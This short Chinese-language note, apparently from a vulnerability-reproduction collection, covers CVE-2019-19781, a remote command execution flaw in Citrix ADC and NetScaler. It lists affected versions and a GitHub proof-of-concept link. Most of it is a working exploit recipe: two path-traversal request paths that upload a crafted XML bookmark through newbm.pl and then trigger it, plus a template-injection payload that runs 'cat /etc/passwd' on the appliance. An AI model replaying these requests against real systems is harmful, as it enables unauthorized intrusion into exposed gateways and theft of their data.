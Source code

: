 # CVE-2019-19781 Citrix ADC&NetScaler 远程命令执行漏洞

## 漏洞影响

13.x,12.1,12.0,11.1,10.5

## 复现过程

https://github.com/ianxtianxt/CVE-2019-19781

**0x01**

`upload_xml (/vpn/../vpns/portal/scripts/newbm.pl)`

**0x02**

`Execute Command (/vpn/../vpns/portal/jas502n.xml)`

**Payload:**


```
url=http://example.com&title=c&desc=[% http://template.new('BLOCK' = 'print `cat /etc/passwd`') %]
```